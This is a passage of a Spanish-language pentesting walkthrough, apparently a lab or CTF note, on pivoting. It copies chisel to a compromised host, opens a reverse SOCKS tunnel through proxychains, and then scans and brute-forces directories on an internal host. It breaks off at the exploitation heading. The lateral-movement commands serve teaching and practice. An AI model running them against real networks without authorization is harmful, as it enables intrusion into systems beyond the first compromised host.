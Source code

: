 ````
scp chisel root@<ip1>:/tmp/chisel
````

2. Abrimos el servidor en 'ipa'

````
./chisel server --reverse -p 1234
````

3. Nos conectamos al servidor

````
./chisel client <ipa>:1234 R:socks
````

Esto abrirá un tunel por la 1080 con la red del cliente
4. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
Deshasteamos strict_chain
add abajo:
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip1' con proxycahins -comando-

## Buscar puertos

````
proxychains nmap -sT -Pn -p- -open -T5 -v -n <ip2> 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421175727.png)

## Buscar tecnologías usadas en la web

````
proxychains whatweb http://<ip2>
````

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 1080
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421180304.png)

## Enumeración directorios por fuerza bruta

````
gobuster dir -u http://<ip2>/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt --proxy socks5://127.0.0.1:1080
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421180637.png)

# Fase de Explotación
